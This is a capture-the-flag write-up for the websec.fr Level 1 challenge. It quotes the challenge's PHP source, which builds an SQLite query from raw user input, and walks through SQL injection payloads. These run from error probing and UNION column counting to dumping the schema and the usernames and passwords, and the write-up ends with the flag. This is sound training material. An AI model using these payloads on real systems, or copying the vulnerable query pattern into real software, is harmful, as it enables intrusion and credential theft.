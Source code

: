 # Level 1
## Description
Challenge URL: https://websec.fr/level01/index.php 

[This application](https://websec.fr/level01/source.php) is used to view the username by the given user ID, it will return the corresponding username from the database.

## Solution
### Initial observation
The `this application` links to the back-end source code including PHP and HTML. Following is the source for PHP:  
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

Here, we can see that the query statement is prepared by concatenating user input to a predefined statement and thereby susceptible to SQL injection.  

If I enter the `user ID` as `'`, an error message is returned:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "' LIMIT 1" in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```

If I enter '' or 1=1 -- (*2 single quotes*), I get this:  

![image](https://user-images.githubusercontent.com/44528004/132615026-734f4575-28eb-4e65-9bb3-da1ad6e08955.png)


### Exploitation
First, I found the number columns returned.  
When I entered `'' union select 1 --`, I got:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```
This means the `SELECT` statement on the right side doesn't have the same number of columns as of the left side. Therefore, I increased the number of columns on the right side to 2 with the following payload:
```
'' union select 1, 1--
```

As a result, I got this:  

![image](https://user-images.githubusercontent.com/44528004/132615447-388b4ecc-5d20-460a-99aa-1af3365d1708.png)

This implies that there are 2 columns returned.

Next, I tried to disclose table names and column names to hopefully find something.  
From [this post](https://stackoverflow.com/questions/6460671/sqlite-schema-information-metadata), I got the payload to get the table names as well as the sql command to create that table:
```sql
SELECT name, sql FROM sqlite_master
WHERE type='table'
ORDER BY name;
```

With that payload, I got this result:  

![image](https://user-images.githubusercontent.com/44528004/132615853-0236d80c-7c0f-40a0-a7fc-df46e6d990d7.png)

From the result, I can see that there is a table called `users` and in that table there are 3 columns, namely `id`, `username`, and `password`.

Them, I wanted to see all `username`s in this table:
```sql
'' UNION SELECT username, password FROM users ORDER BY username DESC --
```

The result is:  

![image](https://user-images.githubusercontent.com/44528004/132617184-184c540e-bf7a-4f10-876f-981b272adef4.png)
> So flag: `WEBSEC{Simple_SQLite_Injection}`
